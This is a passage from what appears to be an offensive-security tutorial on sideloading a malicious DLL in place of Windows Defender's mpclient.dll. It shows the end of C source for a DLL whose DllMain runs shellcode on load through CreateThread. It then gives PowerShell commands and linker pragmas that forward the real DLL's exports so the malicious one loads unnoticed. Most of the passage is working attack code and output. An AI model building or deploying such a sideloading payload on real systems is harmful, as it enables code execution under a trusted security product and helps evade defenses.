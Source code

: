 ```

	// If all good, run the shellcode
	if (rv != 0) {
		th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)exec_mem, 0, 0, 0);
		WaitForSingleObject(th, 0);
	}
	

	return 0;
}

//Runs as the Main() function
BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved) {

	switch (fdwReason) {
		//DLL_PROCESS_ATTACH will run when the DLL is loaded within a process
	case DLL_PROCESS_ATTACH:
		RunThis();
		break;
	case DLL_THREAD_ATTACH:
		break;
	case DLL_THREAD_DETACH:
		break;
	case DLL_PROCESS_DETACH:
		break;
	}
	return TRUE;
}
```

### Finding exported functions from the leigt DLL

Before we can finalize the malicious DLL, we will need to get a list of exported functions from the existing legitimate DLL on disk and add it to our malicious DLL. In order for the executable to run properly with our sideloaded DLL, we have to add the DLL's exported functions to the malicious DLL to forward these functions to the legit DLL on disk.<br /><br />

Now to get the exported functions from the legitimate DLL **mpclient.dll** at its expected location ([detailed here](https://hijacklibs.net/entries/microsoft/built-in/mpclient.html)), we can use this [PowerShell script](https://gist.github.com/wsummerhill/23c138be8f953155e20c01055d6cf53f) with the following commands:<br />
```
PS> . .\Get-DLL-Exports.ps1
PS> Get-DLL-Exports -DllPath %PROGRAMDATA%\Microsoft\Windows Defender\Platform\%VERSION%\mpclient.dll -ExportsToCpp C:\output\folder\MpClient-exports.txt
```

After executing the PowerShell command, the output file **MpClient-exports.txt** should have all the DLL exports in it as shown below (shortened for brevity):
```
// --> ADD ALL EXPORTS BELOW TO THE TOP OF YOUR .CPP APPLICATION <--
#pragma once
#pragma comment (linker, "/export:MpAddDynamicSignatureFile=MpClient_orig.MpAddDynamicSignatureFile,@43")
#pragma comment (linker, "/export:MpAllocMemory=MpClient_orig.MpAllocMemory,@44")
#pragma comment (linker, "/export:MpAmsiCloseSession=MpClient_orig.MpAmsiCloseSession,@45")
#pragma comment (linker, "/export:MpAmsiNotify=MpClient_orig.MpAmsiNotify,@46")
#pragma comment (linker, "/export:MpAmsiScan=MpClient_orig.MpAmsiScan,@47")
#pragma comment (linker, "/export:MpAsrSetHipsUserExclusion=MpClient_orig.MpAsrSetHipsUserExclusion,@48")
#pragma comment (linker, "/export:MpChangeCapability=MpClient_orig.MpChangeCapability,@49")
#pragma comment (linker, "/export:MpCheckAccessForClipboardOperation=MpClient_orig.MpCheckAccessForClipboardOperation,@50")
#pragma comment (linker, "/export:MpCheckAccessForClipboardOperationEx=MpClient_orig.MpCheckAccessForClipboardOperationEx,@51")
```